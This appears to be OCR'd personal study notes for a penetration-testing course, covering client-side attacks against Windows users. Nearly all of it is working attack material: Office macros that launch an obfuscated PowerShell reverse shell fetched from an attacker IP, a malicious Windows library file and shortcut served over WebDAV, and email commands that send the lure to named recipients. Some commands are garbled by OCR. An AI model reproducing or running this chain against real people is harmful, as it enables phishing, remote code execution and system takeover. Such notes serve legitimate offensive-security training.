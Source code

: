 ## POWERSHELL POPUP:

```
Sub AutoOpen() MyMacro

End Sub  
Sub Document_Open()

MyMacro

End Sub  
Sub MyMacro() CreateObject("Wscript.Shell").Run "powershell"

End Sub
```

## Macro Invoking Powershell for ReverseShell (create a macro name MyMacro

- UTF-16 LE Base64 encode the following payload - https://www.base64encode.org/  
- IEX (New-ObjectSystem.Net.Webclient).DownloadString('http://192.168.119.3/powercat.ps1');powercat -c 192.168.119.3 -p 4444 -e powershell  
• Split it using Split b64.py in pwk dir.

## Python script to split base64 encoded payload

```python
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..." n=50  
for i in range(0, len(str), n):

print("Str = Str + " + '"' + str[i:i+n] + '"')
```

Add it in the following VBA code. Save it as docm or doc or dotx.

```macro
Sub AutoOpen() MyMacro

End Sub  
Sub Document_Open()

MyMacro End Sub

Sub MyMacro() Dim Str As String

Str = Str + "powershell.exe -nop -w hidden -e SUVYKE5ldy1PYmplY"  
Str = Str + "3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5" Str = Str + "nKCdodHRwOi8vMTkyLjE2OC4xMTkuMi9wb3dlcmNhdC5wczEnK"

Str = Str + "Ttwb3dlcmNhdCAtYyAxOTIuMTY4LjExOS4xODIgLXAgNDQ0NCA" Str = Str + "tZSBwb3dlcnNoZWxsCg=="  
CreateObject("Wscript.Shell").Run Str

End Sub
```

## CODE EXECUTION VIA WINDOWS LIBRARY FILES:  
Creating WebDav Dir, and test.txt file in it, Starting WebDav Server

- mkdir /home/kali/webdav  
- touch /home/kali/webdav/test.txt  
- /home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/ (Look in o/p to see its hosted on which port default 127.0.0.1:80)

## Windows Library Code For Connecting To WebDav Share (Change IP)

```xml
<?xml version="1.0" encoding="UTF-8"?>  
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library"> <name>@windows.storage.dll,-34582</name>  
<version>6</version>  
<isLibraryPinned>true</isLibraryPinned> <iconReference>imageres.dll,-1003</iconReference>  
<templateInfo> <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType> </templateInfo>  
<searchConnectorDescriptionList>  
<searchConnectorDescription> <isDefaultSaveLocation>true</isDefaultSaveLocation> <isSupported>false</isSupported>  
<simpleLocation>  
<url>http://192.168.119.2</url>  
</simpleLocation>  
</searchConnectorDescription>  
</searchConnectorDescriptionList>  
</libraryDescription>
```

- Open Notepad and save it as config.Library-ms  
- Click on that config.Library-ms file in Desktop to see our WebDav Share with test.txt init

## Creating a Shortcut in Windows For Reverse Shell using PowerShell i.e., PowerCat

- Right Click on Windows > New > Shortcut
- Enter Powershell onliner for Downloading and Executing Powercat
- powershell.exe -c "IEX(New-ObjectSystem.Net.WebClient).DownloadString('http://192.168.45.177:8000/powercat.ps1');powercat -c 192.168.45.177 -p 4444 -e powershell"
- Click on Next and Save it as utomatic_configuration.

Copy config.Library-ms and automatic_configuration file inside config.Library.ms i.e., Place it it WebDav Share 
Sending emails with the Windows Library file as attachment
```
sudoswaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap (-t to, --from user creds we have --server mail server, body.txt dummy file with content)
```
    
## Reverse Shell (SMB or SMTP)
    
- Navigate to WebDav Folder in Kali
- smbclient //targetip/share -c 'put config.Library-ms'  
Simulated User will click on the reverse shell shortcut file and we'll get reverse shell

```
sendEmail -t dave.wizard@supermagicorg.com -f jaxor@hacker.com -s 192.168.182.199 -u Important Upgrade Instructions -a ~/webdav/config.Library-ms -m "Hi there" -xu test@supermagicorg.com -xp test 
```
(dave wizard user was identified in exif data, test@supermagicorg.com was identified by dir bf i.e., INFO.pdf )

Note: Above one will work even if -xu -xp were not used